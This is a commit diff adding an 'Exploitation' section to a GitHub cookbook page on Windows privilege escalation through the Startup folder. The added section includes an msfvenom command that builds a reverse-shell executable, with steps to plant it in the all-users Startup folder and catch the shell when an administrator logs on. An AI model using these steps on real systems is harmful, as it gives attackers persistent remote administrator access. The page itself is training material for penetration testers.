

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/LogonAutostartExecutionStartupFolder.md, the part around the change. GitHub-like rendering; pictures changed too: Pictures/AutostartStartupFolder-Exploitation.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Edit Logon Autostart Execution (Startup Folder)

````diff
--- a/Notes/LogonAutostartExecutionStartupFolder.md
+++ b/Notes/LogonAutostartExecutionStartupFolder.md
@@ -93,6 +93,28 @@ Outcome:
 
 ## Exploitation
 
+1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:
+
+```
+msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
+```
+
+2) Transfer the malicious executable file to victim's machine.
+
+3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.
+
+Outcome:
+
+![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)
+
+4) Open a listener on your Kali machine.
+
+5) Reboot the victim's machine and login as Adminstrator:
+
+![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)
+
+6) Verify the reverse shell on your Kali machine:
+
 ## Mitigation
 
 ## References
````
